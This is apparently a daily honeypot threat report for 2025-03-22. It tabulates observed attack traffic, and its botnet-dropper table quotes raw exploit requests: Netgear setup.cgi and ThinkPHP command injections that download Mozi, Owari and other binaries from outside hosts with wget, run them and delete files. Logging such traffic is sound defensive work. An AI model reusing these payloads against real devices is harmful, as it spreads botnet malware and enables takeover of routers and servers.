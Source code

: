 ```yaml
---
title: "Report: 2025-03-22 "
date: 2025-03-22
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-03-22
interaction report on http service of various Hhoneypot around the world.
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of user_agent](#user_agent)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Dubai              |
| GB               |                    |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                                                                                 |
|:----------------|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 42.230.240.228  | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://42.230.240.228:42181/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                           |
| 119.178.248.37  | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                                   |
| 103.208.105.232 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://192.168.1.1:8088/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                               |
| 58.146.59.84    | GET /shell?cd+/tmp;rm+-rf+*;wget+ http://200.129.143.6/Binarys/Owari.arm;chmod+777+/tmp/Owari.arm;sh+/tmp/Owari.arm arm4.jaws HTTP/1.1                                                                                                  |
| 204.76.203.18   | GET /wget.sh HTTP/1.1                                                                                                                                                                                                                   |
| 31.170.22.205   | GET /cgi-bin/live_api.cgi?page=satellite_list&id=&ip=$(chmod+777+/tmp;cd+/tmp;wget+http://31.170.22.205/dl18;sh+dl18) HTTP/1.1                                                                                                          |
| 185.233.117.25  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://152.42.234.215/bns/x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1 |
| 60.249.212.60   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://193.84.71.195/bins/x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1 |
| 140.207.30.37   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1           |

## user_agent

The list of User Agent presented here are those that have not yet been yet integrated into the [user agent database database](https://blog.shoggoth.industries/database/request_database/).
